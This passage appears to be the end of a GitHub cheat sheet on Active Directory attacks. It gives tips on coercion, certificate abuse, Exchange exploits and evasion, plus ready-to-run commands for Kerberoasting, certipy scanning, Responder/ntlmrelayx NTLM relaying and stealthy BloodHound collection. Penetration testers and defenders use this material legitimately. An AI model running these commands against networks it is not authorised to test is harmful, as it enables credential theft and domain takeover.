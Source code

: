 ### **🔥 Pro Tips for Advanced Practitioners**

1. **Always enumerate certificates first** - ADCS misconfigurations are common and powerful
2. **Coercion attacks are goldmines** - PetitPotam, PrinterBug, Coercer for forced authentication
3. **Don't ignore Exchange** - PrivExchange and ProxyLogon/ProxyShell are game-changers
4. **RBCD is underutilized** - Easier than traditional delegation attacks
5. **Shadow Credentials bypass MFA** - Modern technique for certificate-based attacks
6. **Trust relationships are highways** - Bidirectional trusts for lateral movement
7. **Check AdminSDHolder periodically** - Hidden privilege escalation opportunities
8. **LAPS enumeration pays off** - Local admin passwords for widespread access
9. **DNS is often overlooked** - DNS admin privileges can lead to domain admin
10. **Event logs tell stories** - Understand what you're generating for better evasion

### **⚡ Quick Reference Commands**

```bash
# One-liner domain takeover check
GetUserSPNs.py -dc-ip $DC domain.com/guest: -request | grep -i admin

# Certificate vulnerability scan
certipy find -u guest@domain.com -p '' -dc-ip $DC -vulnerable -stdout

# Quick NTLM relay setup
responder -I eth0 -A & ntlmrelayx.py -tf targets.txt -smb2support

# BloodHound data collection
sharphound.exe -c All --stealth --zipfilename $(hostname)_$(date +%Y%m%d).zip
```

**Author**: Mrx0rd

---

*"In Active Directory, there are no coincidences, only misconfigurations waiting to be discovered."*

